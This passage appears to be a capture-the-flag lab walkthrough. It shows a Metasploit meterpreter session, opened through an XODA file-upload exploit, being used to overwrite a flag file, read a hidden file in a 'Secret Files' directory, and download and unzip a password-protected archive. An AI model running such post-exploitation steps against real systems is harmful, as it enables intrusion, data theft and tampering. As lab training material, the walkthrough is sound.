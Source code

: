 Change the flag value present in /app/flag1, so that no one else can get the right flag.

```
meterpreter > edit flag1
meterpreter > cat flag1
The content of file flag1 has been modified, no one else can get the right flag, lol.
```

Change the present working directory to a suspiciously named directory in /app and read the flag from a hidden file present in that directory.

`bbbb3ed27502614e27bff65faea008a0`

```
meterpreter > cd "Secret Files"
meterpreter > pwd
/app/Secret Files
meterpreter > ls
Listing: /app/Secret Files
==========================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100777/rwxrwxrwx  33    fil   2018-10-06 05:16:03 +0000  .flag2

meterpreter > cat .flag2
bbbb3ed27502614e27bff65faea008a0
```

Get the flag5.zip to local machine, open it using password 56784. The information given in the extracted file will give clue about the location of the another flag.

`MD5 hash of /bin/bash`

```
meterpreter > download flag5.zip
[*] Downloading: flag5.zip -> flag5.zip
[*] Downloaded 208.00 B of 208.00 B (100.0%): flag5.zip -> flag5.zip
[*] download   : flag5.zip -> flag5.zip
meterpreter > 
Background session 1? [y/N]  
msf5 exploit(unix/webapp/xoda_file_upload) > ls
[*] exec: ls

README
flag5.zip
tools
wordlists
msf5 exploit(unix/webapp/xoda_file_upload) > unzip flag5.zip
[*] exec: unzip flag5.zip

Archive:  flag5.zip
[flag5.zip] list password: 
 extracting: list                    
msf5 exploit(unix/webapp/xoda_file_upload) > cat list
[*] exec: cat list

MD5 hash of /bin/bash
```
